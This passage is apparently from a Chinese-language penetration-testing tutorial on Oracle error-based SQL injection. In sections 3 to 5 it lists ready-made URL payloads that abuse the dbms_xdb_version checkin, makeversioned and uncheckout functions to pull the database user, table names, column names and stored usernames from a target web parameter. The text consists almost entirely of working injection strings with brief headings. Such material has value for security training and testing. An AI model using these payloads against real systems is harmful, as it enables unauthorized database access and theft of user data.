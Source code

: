 ###### 3.**dbms_xdb_version.checkin()函数报错注入**

```
获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

获取表名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

获取数据
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

###### 4.**dbms_xdb_version.makeversioned()函数报错注入**

```
获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

获取表名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

获取数据
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

###### 5.**dbms_xdb_version.uncheckout()函数报错注入**

```
获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

获取表名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

获取数据
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```
